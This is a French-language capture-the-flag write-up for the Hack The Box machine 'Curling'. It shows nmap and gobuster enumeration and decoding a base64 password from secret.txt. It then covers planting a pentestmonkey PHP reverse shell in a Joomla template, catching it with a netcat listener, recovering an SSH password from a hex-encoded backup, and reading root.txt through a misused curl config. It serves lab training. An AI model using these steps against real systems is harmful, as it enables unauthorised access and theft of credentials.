 # Curling writeups by Seyptoo.

[![forthebadge made-with-python](https://image.noelshack.com/fichiers/2019/13/6/1553953753-capture-du-2019-03-30-14-49-00.png)]

Nmap Scan
----

    Starting Nmap 7.01 ( https://nmap.org ) at 2019-03-30 14:55 CET
    Nmap scan report for 10.10.10.150
    Host is up (0.045s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
    |_  256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
    80/tcp open  http?
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 193.48 seconds
    
Alors concrètement il y'a 2 ports ouvert le SSH pour le 22 et le HTTP pour le 80. Nous allons un peu énumérer sur le serveur web.

HTTP
----

Quand nous envoyions une rêquete HTTP avec curl, on peut constater que il y'a un fichier spécial nommé secret.txt. Nous allons essayer de lire ce fichier texte.

    root@Computer:~/htb/writeup/Curling# curl http://10.10.10.150
    [...SNIP...]
    </body>
      <!-- secret.txt -->
    </html>
    root@Computer:~/htb/writeup/Curling# curl http://10.10.10.150/secret.txt
    Q3VybGluZzIwMTgh
    root@Computer:~/htb/writeup/Curling# curl http://10.10.10.150/secret.txt -s|base64 -d
    Curling2018!
    
Ceci ressemble à un mot de passe, probablement pour le CMS. Il y'a aussi un nom d'utilisateur dans un article ça pourrais nous servir.

[![forthebadge made-with-python](https://cdn.discordapp.com/attachments/556442801085218827/561556044367527979/unknown.png)]

J'ai pas encore lancé de gobuster je vais lancé ça automatiquement.

Gobuster
----
    root@seyptoo-Aspire-E5-721:~/htb/writeup/Curling# gobuster -w /usr/share/wordlist/directory-list-2.3-medium.txt -u http://10.10.10.150 -o output-gobuster.log

    Gobuster v1.4.1              OJ Reeves (@TheColonial)
    =====================================================
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://10.10.10.150/
    [+] Threads      : 10
    [+] Wordlist     : /usr/share/wordlist/directory-list-2.3-medium.txt
    [+] Output file  : output-gobuster.log
    [+] Status codes : 200,204,301,302,307
    =====================================================
    /images (Status: 301)
    /media (Status: 301)
    /templates (Status: 301)
    /modules (Status: 301)
    /bin (Status: 301)
    /plugins (Status: 301)
    /includes (Status: 301)
    /language (Status: 301)
    /components (Status: 301)
    /cache (Status: 301)
    /libraries (Status: 301)
    /tmp (Status: 301)
    /layouts (Status: 301)
    /administrator (Status: 301)

 Nous avons beaucoup de dossiers, on va s'intéréssé à la page d'administration, le CMS utilisé est Joomla. J'ai essayer avec plusieurs utilisateur notamment avec admin, administrator etc.. et finalement l'utilisateur est floris et le mot de passe est Curling2018!. La connexion fonctionne avec succès.
 
 Username : floris<br />
 Password : Curling2018
 
 Joomla
 ----
 
Une fois connecté sur le CMS, allez sur l'onglet Templates et ensuite il y'aurais deux autres onglets nommé Styles et Templates, cliquez sur Templates après avoir cliqué vous devez cliqué sur 'Beez3 Details and Files' de crée un nouveau fichier php, pour le code php je vous conseille pentestmonkey une fois le code mis et bien sauvegardé. Vous pouvez exécuter votre code dans /templates/beez3/your.php


Shell > User.txt
----
    root@Computer:~/htb/writeup/Curling# nc -lvnp 1234
    Listening on [0.0.0.0] (family 0, port 1234)
    Connection from [10.10.10.150] port 1234 [tcp/*] accepted (family 2, sport 58834)
    [...SNIP...]
    $ python3 -c "import pty;pty.spawn('/bin/bash')"
    www-data@curling:/$ ls
    bin   home            lib64       opt   sbin      sys  vmlinuz
    boot  initrd.img      lost+found  proc  snap      tmp  vmlinuz.old
    dev   initrd.img.old  media       root  srv       usr
    etc   lib             mnt         run   swap.img  var
    www-data@curling:/$ cd /home/floris
    www-data@curling:/home/floris$ ls
    admin-area  password_backup  user.txt
    
Comme vous pouvez le voir il y'a un fichier password_backup, le fichier user.txt est impossible à lire car nous avons pas les permissions de lire ce fichier. Donc je vais transférer le fichier password_backup vers ma machine physique.

[![forthebadge made-with-python](https://im.ezgif.com/tmp/ezgif-1-6c0da889e0b9.gif)]

Donc une fois que le fichier a été transférer nous pouvons jouer avec le fichier backup. Alors concrètement si nous regardons le fichier c'est un fichier en hex, nous allons utillisé la commande xxd pour convertir ça en binaire.

    root@Computer:~/htb/writeup/Curling# xxd -r password_backup > file.bin
    root@Computer:~/htb/writeup/Curling# file file.bin 
    file.bin: bzip2 compressed data, block size = 900k
    
Maintenant si nous regardons le type du fichier c'est un fichier compressé en bzip2, nous allons décompressé ça avec la commande bzip2. Ensuite il faut changer l'extension du fichier.

    root@Computer:~/htb/writeup/Curling# bzip2 -d file

Le fichier a été décompressé avec succès sans aucun problème ensuite nous allons revoir le type du fichier maintenant.

    root@Computer:~/htb/writeup/Curling# mv file.out file.out.tar
    root@Computer:~/htb/writeup/Curling# tar -xvf file.out.tar
    extracting : password.txt
    root@Computer:~/htb/writeup/Curling# cat password.txt
    5d<wdCbdZu)|hChXll
    
Nous avons réussis à chopper le mot de passe de l'utilisateur floris donc on va essayer de se connecter en SSH et de check.

    root@Computer:~/htb/writeup/Curling# ssh floris@10.10.10.150
    floris@10.10.10.150's password: 
    [...SNIP...]
    floris@curling:~$ wc -c user.txt
    33 user.txt
 
PrivEsc
----
Pour le privesc il y'a rien de bien compliqué il suffit de regarder le dossier admin-area dans /home/floris. Dans le fichier input vous devez simplement modifier la variable par file:///root/root.txt pour lire le fichier root.txt. Et lisez rapidement le fichier report avant que quelqu'un d'autre modifie le fichier input.

file input  :
url = "file://root/root.txt"
file output :
    82c198ab6f[...SNIP...]
 
  
